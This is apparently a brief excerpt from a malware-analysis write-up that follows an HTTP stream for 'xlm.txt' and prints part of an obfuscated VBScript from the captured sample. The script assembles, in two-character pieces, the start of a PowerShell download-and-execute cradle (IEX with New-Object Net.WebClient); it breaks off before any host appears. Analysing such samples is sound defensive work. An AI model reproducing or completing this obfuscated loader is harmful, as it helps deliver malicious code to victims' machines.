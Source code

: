## ANALYZING THE FILES: 

Following HTTP stream on xlm.txt

![Screenshot 2024-07-15 194045](https://github.com/user-attachments/assets/c60994d2-cb15-4303-828e-769147e16389)


futher "text" was following:

```vb
    Dim LZeWX(88), OodjR, i

    ' Define each part based on the provided order
    LZeWX(0) = "[B"

    LZeWX(1) = "YT"

    LZeWX(2) = "e["

    LZeWX(3) = "]]"

    LZeWX(4) = ";$"

    LZeWX(5) = "A1"

    LZeWX(6) = "23"

    LZeWX(7) = "='"

    LZeWX(8) = "Ie"

    LZeWX(9) = "X("

    LZeWX(10) = "Ne"

    LZeWX(11) = "W-"

    LZeWX(12) = "OB"

    LZeWX(13) = "Je"

    LZeWX(14) = "CT"

    LZeWX(15) = " N"

    LZeWX(16) = "eT"

    LZeWX(17) = ".W"

    LZeWX(18) = "';"

    LZeWX(19) = "$B"

    LZeWX(20) = "45"

    LZeWX(21) = "6="

    LZeWX(22) = "'e"

    LZeWX(23) = "BC"

    LZeWX(24) = "LI"

    LZeWX(25) = "eN"
```